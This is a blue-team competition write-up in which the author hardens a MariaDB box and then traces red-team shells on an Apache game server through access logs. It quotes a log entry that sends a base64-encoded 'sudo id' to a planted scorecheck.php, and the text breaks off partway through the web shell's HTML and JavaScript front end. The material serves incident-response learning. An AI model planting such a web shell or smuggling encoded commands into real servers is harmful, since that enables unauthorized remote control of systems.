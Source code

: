 ```bash
sudo nvim /etc/ssh/sshd_config.d
htop
sudo apt install debsums
sudo debsums
systemctl list-units

```
Then while looking in the systemd services I found the worst malware ever Jenkins. Some ```sudo systemctl disable jenkins && sudo systemctl stop jenkins && sudo usermod -L jenkins``` threat eliminated. Next I look through users ```sudo usermod root -L``` to disallow root login. Next I ran [PSPY](https://github.com/DominicBreuker/pspy) while maybe not the best tool for blue teamers it was still great to see all the processes that got started on your box. 
## Database
Now to the main attraction on my box the database. This along with ssh were the only 2 scored services on my box. The database was mariadb. First I ran ```sudo mysqldump --all-databases -p``` so that I could restore if my ham handed database admin broke some stuff. Next I ran ```sudo mysql_secure_installation``` which walked me through setting a root password and deleting annon users and deleting the test db. Next I logged into mysql and ran some queries first ```USE mysql;``` followed by ```SELECT User,Host,Password FROM mysql.user;``` Then created a wordpress user and granted it privileges 
```sql
CREATE USER 'wordpress'@'172.16.4.7' IDENTIFIED WITH authentication_plugin BY '***';
GRANT ALL ON wordpress.* TO 'wordpress'@'172.16.4.7';
```
Password created by [diceware](https://diceware.dmuth.org/)
# Chapter 2
After Lunch the fun really started other than finding a few ssh keys in ~/.ssh/authorized keys nothing really happened on the db box. The real fun was on the game box. Upon logging in he ran the same script as me and started securing vsftp. I was called in to fix a 403 error in the apache server. 
```php
<Directory /var/www/>
        Options -Indexes -FollowSymLinks
        AllowOverride None
        Require all granted <--- was set to denied 
</Directory>
```
After that apache came back up and we started notice red team getting shells on the box (thanks to pspy). I decided to look into the apache access log.
```log
10.4.10.4 - - [08/Oct/2023:15:08:28 +0000] "GET /scoreboard/scorecheck.php?check=c3VkbyBpZA%3D%3D HTTP/1.1" 200 678 "http://172.16.4.4/scoreboard/scorecheck.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
Thats strange all the other scorechecks are coming from go-http-client are where get requests to /web-config.json or /index.html
```log
172.16.255.221 - - [08/Oct/2023:15:09:05 +0000] "GET /web-config.json HTTP/1.1" 200 342 "-" "Go-http-client/1.1"
172.16.255.221 - - [08/Oct/2023:15:09:35 +0000] "GET /index.html HTTP/1.1" 200 2071 "-" "Go-http-client/1.1"
```
and sure enough at /var/www/scorebaord/scorecheck.php
```php
<title>PHP Web Shell</title>
<html>
<body>
    <!-- Replaces command with Base64-encoded Data -->
    <script>
    window.onload = function() {
        document.getElementById('execute_form').onsubmit = function () {
            var command = document.getElementById('check');
            command.value = window.btoa(command.value);
        };
```